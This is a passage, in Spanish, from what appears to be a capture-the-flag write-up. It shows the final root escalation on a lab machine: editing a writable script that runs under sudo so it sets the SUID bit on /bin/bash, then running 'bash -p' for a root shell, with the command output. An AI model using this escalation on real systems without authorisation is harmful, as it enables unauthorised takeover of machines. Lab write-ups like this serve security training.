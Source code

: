 Vemos que podemos editar el archivo, por lo que haremos lo siguiente:

```shell
nano .shell.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y ejecutamos lo siguiente:

```shell
sudo bash /home/daenerys/.secret/.shell.sh
```

Ahora si listamos la `bash`:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Vemos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Y con esto seremos `root`, por lo que habremos terminado la maquina.
